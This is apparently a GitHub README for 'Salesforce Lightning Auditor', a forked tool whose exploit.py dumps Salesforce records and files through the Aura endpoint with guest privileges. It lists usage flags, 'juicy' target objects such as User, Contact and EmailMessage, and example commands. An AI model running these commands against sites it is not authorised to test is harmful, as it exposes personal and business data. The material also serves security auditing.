 # Salesforce Lightning Auditor
Forked from poc_salesforce_lightning by moniik

Additions:
+ Auto download of files accessible to guests

This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT] [-r RECORD_ID] [-d] [-f] [-s]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest
                        users and saves them in the file and downloads all files
                        returned when checking ContentDocument.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
